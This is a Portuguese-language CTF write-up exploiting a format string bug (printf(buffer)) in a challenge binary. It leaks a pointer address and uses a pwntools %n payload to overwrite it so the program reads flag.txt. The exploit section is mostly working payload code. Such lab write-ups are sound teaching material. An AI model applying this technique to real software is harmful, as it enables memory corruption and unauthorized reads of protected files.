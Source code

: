 # Format Strings

## Setup

- Foi executado o comando `checksec` para identificar as proteções ativas no binário fornecido.

![image](screenshots/CTF6_1.png)

- As proteções presentes permitiram explorarmos vulnerabilidades de escrita arbitrária na memória.

## Reconhecimento

- O código fonte foi analisado para identificar as vulnerabilidades.

1. **Existência de Ficheiros Lidos**

   - A função `readtxt` lê um ficheiro chamado `"rules.txt"` ao inicializar o programa.
   - O nome do ficheiro pode ser manipulado pela exploração da vulnerabilidade de format string.

2. **Existência de `format string` Vulnerável**

   - Na função `main`, o programa usa diretamente `printf(buffer)` para exibir o input do utilizador, sem realizar validação.
   - Isso permite explorar a vulnerabilidade de **format string** para ler ou sobrescrever endereços de memória.

3. **Ação Potencial**

   - Substituir o nome do ficheiro lido de `rules.txt` para `flag.txt` através de manipulação da memória.

## Exploit

- O programa fornece o endereço da variável `fun` na memória:

```c
printf("I will give you an hint: %x\n", &fun);
```

- Extraímos então esse endereço utilizando regex

```py
match = re.search(r'I will give you an hint: (0x)?([0-9a-fA-F]+)', output)
if match:
    fun_addr = int(match.group(2), 16)
    print(f"[+] Endereço de fun extraído: {hex(fun_addr)}")
else:
    print("[-] Falha ao extrair o endereço de fun")
    r.close()
    exit()
```

- Foi criado um payload para modificar o valor do pointer `fun` para que a função `readtxt` seja chamada novamente com `flag.txt`:

```py
payload = b"./flag.." + p32(fun_addr) + b"%8x" + b"%.134518673x%n"
```
1. `./flag..`: O início do nome flag seguido por bytes de ajuste.

2. `p32(fun_addr)`: Endereço do ponteiro fun.

3. `%8x`: Preenche a pilha para alcançar o local correto de escrita.

4. `%.134518673x%n`: Ajusta o contador para escrever o valor necessário no endereço especificado.

- O payload foi enviado ao serviço remoto através do comando:

```py
r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)

r.interactive()
```

- Foi possível então encontrarmos a flag.

![image](screenshots/CTF6_2.png)

